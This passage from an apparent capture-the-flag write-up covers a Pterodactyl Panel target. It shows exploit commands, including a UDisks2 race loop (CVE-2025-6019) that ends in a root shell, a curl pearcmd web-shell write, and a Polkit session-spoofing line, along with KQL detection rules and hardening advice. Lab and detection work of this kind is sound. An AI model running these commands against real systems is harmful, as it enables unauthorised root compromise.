


Now, we "hammer" the Resize method. We do not limit this to 20 tries; we run it infinitely until the race is won.

```bash
phileasfogg3@pterodactyl:~> gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method org.freedesktop.login1.Manager.CanReboot
('yes',)
phileasfogg3@pterodactyl:~> udisksctl loop-setup -f /tmp/exploit.img
Mapped file /tmp/exploit.img as /dev/loop5.
phileasfogg3@pterodactyl:~> while true; do 
>     gdbus call --system --dest org.freedesktop.UDisks2 \
>     --object-path /org/freedesktop/UDisks2/block_devices/loop5 \
>     --method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}'
> done
```

### Root Flag

When the "target is busy" error appears in Window 2, Window 1 will have caught the mount and spawned a shell.

```bash
victim# id
uid=1002(phileasfogg3) gid=100(users) euid=0(root) groups=100(users)

victim# cat /root/root.txt
<SNIP>

```




# Defensive Operations


## Strategic Overview

* **Definition:** An integrated attack chain leveraging a Local File Inclusion (LFI) in the Pterodactyl Panel (**CVE-2025-49132**) to achieve Remote Code Execution (RCE) via **PEAR** `pearcmd.php` abuse, followed by lateral movement and a complex privilege escalation via Polkit session spoofing and a **UDisks2** race condition (**CVE-2025-6019**).
* **Impact:** Full system compromise (Root access). The attacker moves from unauthenticated external access to persistent administrative control over the host and all managed game server instances.
* **The Scenario:** An adversary identifies an unpatched Pterodactyl Panel. By manipulating the `locale` parameter, they write a malicious configuration file to disk. After gaining a low-privileged shell, they harvest database credentials to pivot to a valid user (`phileasfogg3`) and eventually exploit race conditions in disk management daemons to escalate to `root`.


## System Architecture & Theory

* **Protocol Environment:**
* **Web:** PHP-FPM, Nginx (Pterodactyl Panel).
* **Management:** PEAR (PHP Extension and Application Repository).
* **Database:** MySQL/MariaDB (Argon2 Hashing).
* **OS Level:** Linux (XFS Filesystem), Polkit, UDisks2, PAM.


* **Attack Logic Flow:**

> [LFI in /locales/] -> [PEAR pearcmd.php config-create] -> [Web Shell / RCE] -> [Database Credential Theft] -> [SSH Lateral Movement] -> [Polkit Session Spoofing] -> [UDisks2 Filesystem Resize Race] -> [Root SUID Execution]

* **Theoretical Analogy:** The attack is akin to "Double-Lock Picking." First, the attacker uses a flaw in the receptionist's desk (LFI) to forge a master key (PEAR RCE). Once inside, they use a flaw in the building's emergency exit system (UDisks2) to bypass the security guard (Polkit) by running through the door (Race Condition) faster than the guard can relock it.


## The Attack Vector (Mechanics)

### Mechanism

| Attribute                  | Technical Details                                                                                               |
| :------------------------- | :-------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers**    | `/locales/locale.json`, `pearcmd.php`, `org.freedesktop.UDisks2`                                                |
| **Critical Vulnerability** | Unsanitized `locale` parameter enabling LFI; insecure filesystem `Resize` logic in UDisks2.                     |
| **Offensive Action**       | Leveraged PEAR `config-create` to write arbitrary PHP into `/tmp/shell.php`, enabling remote command execution. |


### Prerequisites

* **Access Level:** Unauthenticated (Initial RCE); Low-privileged user (Root Escalation).
* **Connectivity:** Ports 80/443 (HTTP), 22 (SSH), and local D-Bus access.
* **Target State:** PEAR installed and accessible via LFI path; `udisks2` service active with `Polkit` allowing local session overrides.


## Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:** **[Technique: PEAR RCE]** + **[Artifact: Unexpected files in /tmp with PHP tags]** + **[Data Sources: Nginx Access Logs / PHP Error Logs]**.
* **Behavioral Outliers:** The `www-data` or `wwwrun` user executing `curl` or `sh` is a high-confidence indicator of compromise (IoC). Similarly, repeated `gdbus` calls to `org.freedesktop.UDisks2.Filesystem.Resize` occurring in rapid succession signify a race-condition exploit attempt.
* **Toxic Combinations:** The presence of `.pam_environment` in a user's home directory combined with modified `XDG_SEAT` variables is a "toxic" indicator of Polkit session spoofing.


## Detection Engineering (Blue Team)

* **Telemetry Gap Analysis:**
* **Sysmon for Linux Event ID 1 (Process Creation):** Monitor for `pearcmd` appearing in command arguments.
* **Sysmon for Linux Event ID 11 (FileCreate):** Monitor for file creation in `/tmp/` ending in `.php`.
* **Auditd:** Track `setuid` calls and mount/unmount operations on loop devices.


* **Detection-as-Code (KQL):**

```kql
// Detects PEAR command abuse via Pterodactyl LFI
DeviceProcessEvents
| where ProcessCommandLine has_all ("pearcmd", "config-create")
| where ProcessCommandLine has_any (".php", "<?php", "system")
| project TimeGenerated, DeviceName, AccountName, ProcessCommandLine, InitiatingProcessFileName

// Detects potential UDisks2 Race Condition attempt
DeviceEvents
| where ActionType == "DbusMethodCall"
| where AdditionalFields.Interface == "org.freedesktop.UDisks2.Filesystem"
| where AdditionalFields.Method == "Resize"
| summarize RequestCount = count() by bin(TimeGenerated, 1s), DeviceName, AccountName
| where RequestCount > 10

```

* **Resilience Test:** Adversaries may use **PID Spoofing** or **Base64 encoding** within the PHP tags to bypass simple string-matching rules.
* **Sub-Rule:** Implement entropy-based analysis on URL parameters and monitor for any process spawned by the webserver user that establishes a reverse shell (`/dev/tcp/`).


## Toolkit & Implementation

* **Automation:** Custom Python PoC for RCE, `ffuf` for subdomain discovery, `hashcat` (Mode 1410 - Argon2) for credential cracking.
* **OPSEC Analysis:** The `pearcmd` technique is noisy in logs due to the large URL payload. The UDisks2 race condition creates significant system noise/CPU load during the "hammering" phase.
* **Post-Exploitation:** Harvesting `.env` files for `DB_PASSWORD` and searching for SUID binaries or vulnerable local services via `linpeas.sh`.


## Defensive Mitigation

* **Technical Hardening:**
1. **PHP:** Set `register_argc_argv = Off` in `php.ini` to disable `pearcmd` arguments via GET requests.
2. **Filesystem:** Mount `/tmp` with `noexec` and `nosuid` flags.
3. **Kernel:** Update to a kernel/UDisks2 version that mitigates **CVE-2025-6019**.
4. **Polkit:** Restrict `org.freedesktop.login1.Manager` permissions for remote sessions.


* **Personnel Focus:** Implement strict patch management cycles for containerized applications and web panels. Conduct regular audit of database user permissions (Least Privilege).


## Quick-Action Playbook

| Step | Objective         | Technical Command / Logic                                                       |
| :--: | :---------------- | :------------------------------------------------------------------------------ |
|  01  | **Enumerate**     | `ffuf -u http://pterodactyl.htb/ -H "Host: FUZZ.pterodactyl.htb"`               |
|  02  | **Exploit RCE**   | `curl -g ".../locale.json?+config-create+/&...<?=system(...)?>+/tmp/shell.php"` |
|  03  | **Spoof Session** | `echo "XDG_SEAT OVERRIDE=seat0" > ~/.pam_environment`                           |
|  04  | **Root Race**     | `while true; do gdbus call ... Filesystem.Resize 0 '{}'; done`                  |
